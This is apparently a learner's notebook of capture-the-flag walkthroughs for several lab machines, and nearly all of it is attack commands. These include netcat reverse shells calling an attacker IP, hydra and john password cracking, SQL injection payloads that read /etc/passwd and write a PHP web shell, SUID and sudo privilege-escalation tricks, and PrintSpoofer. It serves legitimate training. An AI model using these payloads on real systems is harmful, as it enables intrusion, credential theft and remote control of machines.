# Network Pentesting

## Room Order

### 1.  Ignite

##### 👉 Very basic web exploitation, perfect start

### 2. smbclient / NO PEAS labs

##### 👉 Specific tool-based practice (pehle fundamentals better hain)
### 3.  Basic Pentesting

##### 👉 Enumeration + privilege escalation ka foundation

### 4.  Mr. Robot → linPEAS

##### 👉 Classic Linux enum + privesc practice

### 5.  Kenobi → linPEAS

##### 👉 SMB, SUID, enumeration strong hoti hai

### 6.  Chocolate Factory → linPEAS

##### 👉 Multiple attack vectors, thoda tricky

### 7.  Year of the Rabbit → linPEAS

##### 👉 Enumeration depth aur patience improve karta hai

### 8.  Year of the Dog

##### 👉 Is stage pe ye zyada sense banata hai

### 9.  Bookstore

##### 👉 Web-focused, thoda guessy ho sakta hai

### 10. Mustacchio

##### 👉 Enumeration-heavy, isliye end me better

### 11. Gaming Server

##### 👉 Enumeration-heavy, isliye end me better


## Ignite

```nmap -sC -sV -A <IP>```

We found cms portal whose name is fuel lets search its exploit in kali

```searchsploit fuel```

Login into the site and we found its running fuel version 1.4

https://www.exploit-db.com/exploits/50477

Download exploit and change its IP to target machine IP

```python3 50477.py -u http://<Victim-IP>```

We got initial login with this

In our main page we found that there’s a link called fuel/application/config/database.php

```cat /home/www-data/flag.txt```

Found user flag

```cat fuel/application/config/database.php```

Found root user password

Copy pentest monkey php reverse shell and change its ip and rename it as shell.php

Now run a netcat listener before

```nc -lvnp 1234```

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

We received reverse shell access

Now we will stable our shell using pty and use bash

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```cd ../../../../```

```su root```

Enter password which is mememe

```find / -name root.txt 2>/dev/null```

```cat  /root/root.txt```

We got root flag

  

## Basic Pentesting

```nmap -sC -sV <IP>```

```gobuster dir -u http://10.49.177.197 -w dirbuster/wordlists/directory-list-2.3-medium.txt```

We found 2 files inside development folder and it talks about weak password and ssh login

We also found about Apache Tomcat server running

```enum4linux -a <IP>```

Use password as anonymous

Here we will find our user



Now we will try to brute force passwords using

We found our 2 usernames kay and jan

Let us find password using hydra

```hydra -l jan -P rockyou.txt 10.48.190.165 ssh```

We found password



Let us do ssh login

```ssh jan@<IP>```

Now I will transfer linpeas file to this folder using

```find / -name "linpeas.sh" 2>/dev/null```

```cd <path>```

```chmod +x linpeas.sh```

```scp linpeas.sh jan@<IP>:/dev/shm```  (In your machine)

Now we have linpeas inside /dev/shm in victim’s system

We found a whole big RSA key let us copy this to a file



Copy this file into a file with name rsa_key

```ssh2john rsa_key > pass.hash```

First save this into a hash and then we will use ssh2john to crack it

```john --wordlist=rockyou.txt pass.hash```

]

```ssh -i /home/kay/.ssh/id_rsa kay@1<IP>```

Now we were in jan’s machine now let’s log into kay’s machine

We are into kay

```cat pass.bak```




## Mr. Robot

```nmap -sV -sC [Target_IP]```

```gobuster dir -u http://<IP> -w <wordlist> -t 100 -q -o gobuster_output.txt```

```http://<IP>/robots```

Go to web /fsocity.dic

download the file fsocity.dic

##### Found first flag - key-1-of-3.txt

  

Go to login.php and capture the packet via burp suite

We will brute force login, we found invalid username issue

```hydra -L file.dic -p test <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -t 30```

##### Found Username Elliot and elliot

  

Now lets find password

```hydra -l Elliot -P Downloads/fsocity.dic 10.66.132.244 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30```

##### Found password = ER28-0652

  

Appearance -> Editor

Change ip in the file archive.php in Editor of appearance (Change IP to our PC’s)

Now if we do nc -lvnp port

```https://<IP>/wp-content/themes/twentyfifteen/archive.php```

```cd /home/robot```

```cat key-2-of-3.txt```

We get reverse shell and found second flag inside robot folder but we can’t read it

  

But we can read password.raw-md5 which turns out to be a password of robots (in hash)

Now we will dehash it (Copy hash and paste inside a file called md5.hash)

```john md5.hash --wordlist=fsocity.dic --format=Raw-MD5```

password is: abcdefghijklmnopqrstuvwxyz




Now we can directly use it but let’s have a fully operational shell first inside the victim’s machine

pty = pseudo-terminal

```python -c 'import pty;pty.spawn("bin/bash")'```

It spawns a fully interactive Bash shell using Python’s pseudo-terminal support.

Now let’s

```su robot```

##### Paste password and now we can view second flag

```cat key-2-of-3.txt```


#### Privilege Escalation

Add linpeas.sh file into the victim’s system

In your machine, where linpeas.sh exist run

```chmod +x linpeas.sh```

```python3 -m http.server 3030```

In victim’s machine, Navigate to /dev/shm

```cd /dev/shm```

```wget http://<ip>:3030/linpeas.sh```

```./linpeas.sh```

##### We can’t run linpeas



For second find root user and for this we will run a command which will allow us to find any SUID binaries

```find / -perm -u=s -type f 2>/dev/null```

We found /user/local/bin/nmap different that ordinary files

``` /usr/local/bin/map --interactive ```

Let’s go to gtfobins

https://gtfobins.github.io/gtfobins/nmap/#suid

```nmap --interactive```

```!sh```
##### Now we are logged in as root


## Kenobi

```nmap -sC -sV <IP>```

We found smb port lets look for anonymous login

```smbclient -L //<IP>```

```smbclient //10.49.133.202/anonymous```

We found a file called log.txt here

get log.txt (helped us to get it but we found nothing good)

We found ProFTPD version 1.3.5

```searchsploit ProFTPD 1.3.5```

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.48.185.198```



```ncat 10.49.133.202 21```

Now we will copy id_rsa file

```SITE CPFR /home/kenobi/.ssh/id_rsa```

```SITE CPTO /var/tmp/id_rsa```

  

```sudo mkdir -p /mnt/kenobi```

```mount <IP>:/var /mnt/kenobi```

```ls -la /mnt/kenobi```

```cp /mnt/kenobiNFS/tmp/id_rsa .```

```sudo chmod 600 id_rsa```

```ssh -i id_rsa kenobi@10.49.133.202```

##### We found first flag after login

  

#### Privilege escalation

```find / -perm -u=s -type f 2>/dev/null```

In the list we found /usr/bin/menu a different thing which we can misuse

Put and run linpeas into that file

After running linpeas we find an unknown binary

```/usr/bin/menu```

```strings /usr/bin/menu```

```cd /tmp```

```echo /bin/sh > curl```

```ls```

```chmod 777 curl```

```export PATH=/tmp:$PATH```

```/usr/bin/menu```

```1```

```whoami ```

##### Now we are root

```cd ..```

```cd root```

```cat root.txt```

  

## Chocolate Factory

```nmap -sC -sV <IP>```



We found at port 113 that we have a key here

If we go there we are automatically downloaded a file called key

  

##### Now we cannot do cat into it



Let us run strings into it

The strings command in Linux is used to extract and display human-readable text strings from binary or non-text files, such as executables, libraries, and object files

```strings <file>```


##### Found a key

Now our task is to find Charlie’s password

We have an ftp port open and found it in our nmap scan and it has anonymous login allowed



```ftp <ip>```

We did ftp login using credentials anonymous:anonymous



Now get this file into your system using

```get gum_room.jpg```

Now run

```steghide extract -sf gum_room.jpg```

Press enter again

We got our file

It is in b64.txt which is base64 format if we look closely



```base64 -d b64.txt > decode.txt```

Now let’s see this file

We find Charlie’s password but its non-readable



Let us decode it using john and choosing rockyou.txt directory for it

Copy Charlie data and paste in a file to decode it

hashcat -m <hash_type> -a <attack_mode> <hash_file> <word_list>

```hashcat -m 1800 -a 0 charlie_hash_file rockyou.txt```

  

| Hash  | Mode |

| :-----: | :----: |

| MD5   | 0 |

| SHA1  | 100 |

| SHA256|   1400 |

| NTLM  | (Windows) 1000 |

| bcrypt |  3200 |

| WPA/WPA2 |    22000 |



We found password as cn7824


We logged in and were redirected to home.php which we already found with gobuster

We will now run a reverse netcat listener

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

First run a reverse shell listener in our machine

```nc -lvnp 1234```

Now run this command in the command thing

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.132.222 1234 >/tmp/f```

After reverse shell

Run

```cd /home/charlie```

We found a file user.txt which we cant open

We also found another file

```cat teleport```

We found RSA file

Save this file inside ur system

```chmod 600 charlie_rsa```

```ssh -i charlie_rsa charlie@<IP>```

```cat /home/charlie/user.txt```



```sudo -l```



We found that we can go root now

##### Search on google gtfobins NOPASSWD: /usr/bin/vi

Now we found

```sudo vi -c ':!/bin/sh' /dev/null```

```Run this in machine```

We are root now

If we do ls we found 2 files


Run root.py

```python root.py```

  

## Year of the Rabbit

```nmap -sC -sV -Pn <IP>```

```gobuster dir -u <URL> -w <wordlist>```



We can try ftp login

Nothing happened

We found /assets directory lets look it up

Found a file called style.css



It has redirected us again to the rick roll meme

##### Now open burp suite and intercept the /sup3r_s3cr3t_f14g.php request



Found this



While going to this link I found an image

I performed steghide --extract -sf hotbabe.png

Found nothing so I did

```strings hotbabe.png```

We found FTP username and a dictionary


Save all passwords in a file and we will brute force using hydra

```hydra -l ftpuser -P rabbit.txt <IP> ftp```

##### Found the password – 5iez1wXKfPKQ

Login using ftp

```ftp <ip>```

We found a file

```get <filename>```

We found something which we can’t decode and its called BrainFuck


For this we will need beef

```beef <filename>```


Now do an ssh login

```ssh eli@<IP>```

find / -name user.txt 2>/dev/null

```cat <path>```


We cannot enter into the file

We have another user named gwendoline

Now we do have a clue


```find / -name s3cr3t 2>/dev/null```


It is a directory

```cd /usr/games/s3cr3t```

```ls -la```

```cat ./<filename>```


##### We found Gwendoline password

```su gwendoline```


```sudo -l```


We found no password login at /usr/bin/vi which we also found in our previous room Chocolate factory

Let us look in gtfobins

https://gtfobins.org/gtfobins/vim/


Here if we use gtfobins directly we wont get access

Let us use user flag but stating user as -1

0 = root

1 = user

-1 = Confuses machine

```sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt```

```:!/bin/sh```

Locate root flag

##### Now we are root

  

## Year of the Dog

```nmap -sV -sC [Target_IP]```

```gobuster dir -u http://<IP> -w <wordlist>```

```feroxbuster -u http://10.49.134.39 -w dirbuster/wordlists/directory-list-2.3-medium.txt```


Now in the cookie value add this

```or 1=1-- -- ```

![[36.png]]

Now in my case the value 40 seems to be not changing as when we used to send requests earlier, it did changed

Now we will apply SQL injection in this cookie id

```' UNION SELECT NULL-- --```

Now add another NULL after this

```' UNION SELECT NULL,NULL-- --```

This tells us that we have two tables, now let us find the table name

Now we will check if 1 value is correct 

```' UNION SELECT 1,NULL-- --```

This one doesn't work so we will try on other one

```' UNION SELECT NULL,1-- --```


Now in this another query also works

```' UNION SELECT NULL, version()-- --```

This shows us ubuntu but we ran MySQL command which states the database is MySQL

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

In this we will pick our MySQL one

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md


We can LOAD a file in this 

```' UNION SELECT NULL, LOAD_FILE('/etc/passwd')-- --```


Mostly we have default paths in HTML configs which is 

```/var/www/html/page_name```

We earlier found a file called config.php, Now we will add this injection to access it

```' UNION SELECT NULL, LOAD_FILE('/var/www/html/config.php')-- --```

We found a username and its password


We have our username and password so we can try SSH login

```ssh web@IP```

Password- Cda3RsDJga

It didnt login

Now lets try something different

We will use them


Now we will pick the HEX one cuz it works

Its hex value is just a php code in hex format so we will create a file which has a netcat reverse shell in it


```<?php system($_GET['x']);?>```

Now if we convert this into hex and then if we are able to get this x into a file x.php then we can have a netcat reverse shell command too

![[44.png]]

Final SQLi looks like this

```' UNION SELECT NULL,0x3c3f7068702073797374656d28245f4745545b2278225d293b203f3e into outfile '/var/www/html/z.php'-- --```


Now we can run commands in it

I will run python server in my system and get my pentest monkey reverse shell file into this

```python -m http.server 3030```

In URL now after x= add this

```wget http://tun0_IP:3030/shell.php5```

Now we have revshell.php file here so lets run that

```nc -lvnp 1234```

In browser change file name to revshell.php


Now we are inside the machine

``` cat /home/dylan/user.txt ```

We see an access denied bcuz we are not dylan, we are www-data

We have another file ```work_analysis ```

If we cat in this file we can see something


We found dylan's password

```Labr4d0rs4L1f3```

Let us try ssh login into this

```ssh dylan@IP```


Now cat dylan's user.txt file

#### Privilege Escalation


Everything is okay in this we have to take a different path now


## Relevant

Run nmap scans and we found smb and other things

```nmap -sC -sV -vv –script=vuln <IP>```

We found another port 49663 running our Microsoft IIS

```smbclient -L <IP>```

```smbclient \\\\<IP>\\nt4wrksv```

```ls```

```get passwords.txt```

We found 2 hashes now decode it one by one

```echo "<hash>" | base64 -d```

  

##### These credentials wont work as they are placed to confuse us and waste our time

  

Now Microsoft IIS usually runs aspx

https://github.com/borjmz/aspx-reverse-shell

Click on raw and copy it to a file shell.aspx

Now change IP to tun0 IP

  

Go to http://IP:49663/nt4wrksv/passwords.txt

So, we are able to see our file

  

Now in smb login type

```put shell.aspx```

Run a netcat listener in your system

```nc -lvnp 1234```

  

Now go to this url

http://IP:49663/nt4wrksv/shell.aspx

And we got our reverse shell

  

```(Get-ChildItem C:\ -Filter user.txt -Recurse -ErrorAction SilentlyContinue).FullName```

```cd C:\Users\Bob\Desktop ```

```dir```

```type user.txt```

We found user flag

  

```whoami /priv```

We found a vulnerability SeImpersonatePrivilege

https://github.com/k4sth4/PrintSpoofer

Now move file to home and

```put PrintSpoofer.exe```

```cd C:\inetpub\wwwroot\nt4wrksv```

```PrintSpoofer.exe -i -c cmd```

Now we are root

If we do whoami it shows nt authority\system

```cd C:\Users\Administrator\Desktop```

```cat root.txt```

  
  

## smbClient

  
  

## BookStore

  

## Mustacchio